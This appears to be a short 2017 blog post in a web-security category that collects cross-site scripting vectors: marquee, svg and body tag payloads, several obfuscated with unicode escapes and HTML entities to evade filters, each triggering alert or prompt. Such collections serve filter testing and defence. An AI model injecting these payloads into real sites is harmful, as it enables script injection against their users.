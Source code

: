 ```yaml
---
title: collect xss vector
date: 2017-06-08 17:25:44
categories: Web安全
tags:
    - XSS
---
```



## tag

### marquee

```
<marquee onstart=alert(1)>xss</marquee>
```

### svg

```
# <svg><script>\u{61}lert`1`<script></svg>
<svg><script>&#x0005C;u&lcub;61&#125;le</>rt&grave;1&grave;</script></svg>
```

### body

```
<body onload=```${prompt``}`>
```

